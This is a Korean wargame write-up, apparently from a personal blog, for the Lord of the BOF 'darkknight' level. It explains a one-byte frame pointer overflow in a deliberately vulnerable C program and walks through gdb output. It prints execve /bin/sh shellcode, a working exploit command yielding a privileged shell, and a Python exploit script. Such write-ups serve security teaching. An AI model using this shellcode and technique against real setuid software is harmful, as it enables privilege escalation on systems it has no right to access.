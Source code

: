 ```yaml
---
title: "[LOB]Level12. darkknight"
tags: [LOB, writeup, FPO]
author: eli_ez3r
key: 20180830
modify_date: 2019-11-14
article_header:
  type: cover
  image:
    src: 
---
```


[SFP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

-----

### 0x01. Analysis

problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



실제 올라가게 되는 problem_child의 buffer배열 주소를 구해보자.

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"S"*36+"\x80"'`
AAAASSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS?퓹? ♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -c core
Core was generated by `./aarkknight AAAASSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/32x $esp-4
0xbffffc84:     0x41414141      0x53535353      0x53535353      0x53535353
0xbffffc94:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffca4:     0x53535353      0x53535353      0xbffffc80      0x0804849e
0xbffffcb4:     0xbffffe06      0xbffffcd8      0x400309cb      0x00000002
0xbffffcc4:     0xbffffd04      0xbffffd10      0x40013868      0x00000002
0xbffffcd4:     0x08048390      0x00000000      0x080483b1      0x0804846c
0xbffffce4:     0x00000002      0xbffffd04      0x080482e4      0x080484dc
0xbffffcf4:     0x4000ae60      0xbffffcfc      0x40013e90      0x00000002
```

problem_child의 buffer배열의 시작주소는 `0xbffffc84`로 확인되고 있다.

이제 우리는 problem_child함수의 sfp 1byte를 바꿀수 있는 것을 이용하여 공격을 해야한다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.

> leave 명령어는 `mov esp, ebp`, `pop ebp` 순으로 진행되고, 
>
> ret 명령어는 `pop eip`, `jmp eip` 순으로 진행된다.
>
> 자세한 내용 설명은 맨 하단으로~

그리고 problem_child의 buffer배열의 시작부분에 shellcode가 실행될 주소를 넣어주면 된다.

[LOB Darkknight문제를 이용한 SFP Overflow 설명]( https://eliez3r.github.io/post/2019/10/17/study-system-SFP-Overflow.html )

-----

&[buffer - 4] : 0xbffffc80

&[buffer + 4] : 0xbffffc88

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
[golem@localhost golem]$ ./darkknight `python -c 'print "\x88\xfc\xff\xbf"+"\x90"*12+"\x31\xc0\x50\x68\x2f\x2f\x73\x 68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x80"'`
덡퓧릱릱릱릱릱?픐h//shh/bin됥PS됣솻
                                     ??퓹?  ♠?왠?옹    ♥@☻
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

-----

```python
import os
import struct

append = lambda x: payload + x
p8 = lambda x: struct.pack("<B", x)
p32 = lambda x: struct.pack("<I", x)

target = "/home/golem/darkknight"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
buffer_addr = 0xbffffc84
last_sfp = 0x84 - 4

payload = p32(buffer_addr + 4)
payload = append("\x90"*(40-4-24))
payload = append(shellcode)
payload = append(p8(last_sfp))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

